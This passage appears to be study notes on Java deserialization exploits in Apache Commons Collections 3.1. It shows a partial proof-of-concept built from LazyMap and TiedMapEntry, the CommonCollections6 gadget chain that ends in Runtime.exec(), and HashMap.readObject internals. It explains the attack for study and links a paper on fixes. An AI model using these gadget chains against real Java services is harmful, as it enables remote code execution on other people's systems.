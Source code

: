So here comes the Poc(partial):
```java
...
final Map innerMap = new HashMap();  
final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);  
TiedMapEntry entry = new TiedMapEntry(lazyMap, "foo");  
BadAttributeValueExpException val = new BadAttributeValueExpException(null);  
Field valfield = val.getClass().getDeclaredField("val");  
      Reflections.setAccessible(valfield);  
valfield.set(val, entry);
...
```

End.

### CommonCollections6 jdk1.8 1.7


> [!NOTE] pre-requirements
> JDK1.7 or 1.8, reproduce successful on both
> commons-collections:commons-collections:3.1


```java
//Gadget chain:
	java.io.ObjectInputStream.readObject()
		java.util.HashSet.readObject()
			java.util.HashMap.put()
			java.util.HashMap.hash()
				org.apache.commons.collections.keyvalue.TiedMapEntry.hashCode()
				org.apache.commons.collections.keyvalue.TiedMapEntry.getValue()
					org.apache.commons.collections.map.LazyMap.get()
						org.apache.commons.collections.functors.ChainedTransformer.transform()
						org.apache.commons.collections.functors.InvokerTransformer.transform()
						java.lang.reflect.Method.invoke()
							java.lang.Runtime.exec()
```

In general, `TiedMapEntry`'s `hashCode()` method would call `map.get(key)` and make a flaw for `LazyMap`. `HashMap`'s `readObject()` calls `hashCode()` of key to calculate hash, which makes sense for the exploitation above.

Firstly, see `HashMap`'s `readObject()`:
```java
private void readObject(ObjectInputStream s)  
    throws IOException, ClassNotFoundException {  
  ...
  for (int i = 0; i < mappings; i++) {  
	    @SuppressWarnings("unchecked")  
	        K key = (K) s.readObject();  
	    @SuppressWarnings("unchecked")  
	        V value = (V) s.readObject();  
	    putVal(hash(key), key, value, false, false);  
	}
	...
    
```


[^1]: [Paper/浅谈Java反序列化漏洞修复方案.md at master · Cryin/Paper](https://github.com/Cryin/Paper/blob/master/%E6%B5%85%E8%B0%88Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E4%BF%AE%E5%A4%8D%E6%96%B9%E6%A1%88.md)